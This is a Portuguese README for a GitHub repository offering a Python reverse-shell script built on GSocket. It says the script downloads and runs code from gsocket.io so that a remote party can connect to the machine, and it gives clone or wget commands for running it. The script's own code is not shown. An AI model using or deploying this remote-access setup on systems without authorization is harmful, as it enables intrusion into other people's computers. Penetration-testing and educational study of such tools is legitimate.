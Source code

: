 # 🐚 Shell Reverso com GSocket

![Captura de Tela (7)](https://github.com/user-attachments/assets/522b4a3a-dcf2-4ea9-8e30-b2e86ebcda26)


Este repositório contém um script em Python que utiliza a ferramenta [GSocket](https://gsocket.io) para criar uma **conexão reversa segura** e estável, mesmo atrás de NATs ou firewalls. Ideal para fins educacionais, testes de penetração ou demonstrações de segurança ofensiva, O script baixa um código da internet (do site gsocket.io) e executa ele no seu computador via terminal, salvando o que ele imprimir no arquivo output.txt. Isso pode permitir que alguém se conecte remotamente ao seu computador.

---

## ⚙️ Requisitos

- Python 3
- cURL
- Permissão para execução de comandos no terminal
- Conexão com a internet

---

## 📦 Instalação

Clone o repositório:

```bash
git clone https://github.com/AndreyFreitax/Shell-Reverso.git
cd Shell-Reverso
python3 gsocket.py
cat output.txt
```

ou
```bash
wget https://raw.githubusercontent.com/AndreyFreitax/Shell-Reverso/refs/heads/main/gsocket.py
python3 gsocket.py
cat output.txt
```


